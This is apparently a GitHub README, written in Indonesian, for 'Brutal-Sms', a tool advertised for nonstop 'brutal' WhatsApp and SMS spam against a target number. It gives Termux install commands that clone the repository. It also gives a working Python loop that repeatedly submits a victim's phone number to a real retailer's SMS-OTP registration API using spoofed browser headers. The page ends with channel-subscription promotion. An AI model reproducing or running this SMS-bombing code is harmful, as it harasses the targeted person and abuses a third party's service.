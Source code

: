 # Brutal-Sms



Spam Brutal WhatsApp 24 jam non stop

<details open>

  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash

  pkg update && pkg upgrade

  pkg install nano

  pkg install git

  pkg install python

  git clone https://github.com/AmmarrBN/Tools-WhatsApp

  bash install.sh

  cd Tools-WhatsApp

  python main.py

  ```

  </details>

<details open>

  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash

  Example:

  import os,sys,time,requests,json

  abc=input("Nomor Target:")

  while True:

        print (abc)

        # Tambah time.sleep(5) (Jika Ingin Delay)

  ```

  </details>

#### KELEBIHAN 📍

| Kelebihan | Check |

|--------|--------|

| **24 Jam non stop** |[✔️](https://github.com/AmmarrBN) |

| **Brutal Spam** |[✔️](https://github.com/AmmarrBN) |

| **Simple** |[✔️](https://github.com/AmmarrBN) |

| **No Encrypt** |[✔️](https://github.com/AmmarrBN) |

| **Subscribe** |[Here](https://youtube.com/channel/UCyyIDnXYJlRI_-2pAQqKr0g) |

---------

<details open>

  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash

  import os,sys,time,requests,json

  nomor=input("Nomor Target:")

  while True:

        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text

        time.sleep(10) # Waktu Delay Bisa Atur Sendiri

  ```

  </details>

> SUBSCRIBE MY CHANNEL >_<

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/AuliaRahmanOfficial123)

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/AuliaRahmanOfficial123)

